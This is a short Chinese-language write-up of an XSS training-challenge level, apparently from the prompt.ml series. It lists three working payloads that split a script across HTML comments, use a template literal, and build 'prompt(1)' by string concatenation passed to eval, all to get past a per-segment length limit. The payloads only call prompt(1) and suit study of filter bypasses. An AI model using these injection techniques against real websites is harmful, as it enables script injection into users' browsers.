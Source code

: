 ## 分析:

这一课和Level7的很类似。解决的思路是一样的,这里最大长度为15个字符,可以使用<!--多行注释。

## Solutions:

1. 
   `"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>`
   经过测试firfox下面也可以
   `"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</`

2. 

``"><script>`#${prompt(1)}#`</script>``


3. 利用eval函数特性执行拼接内容

`"><script>/*#*/a='prom'/*#*/+'pt(1)'/*#*/eval(a)/*#*/</script>`


## Img:

1. `"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</`

![F_1](/img/xss/prompt_ml/levelF_001.png)

2. ``"><script>`#${prompt(1)}#`</script>``
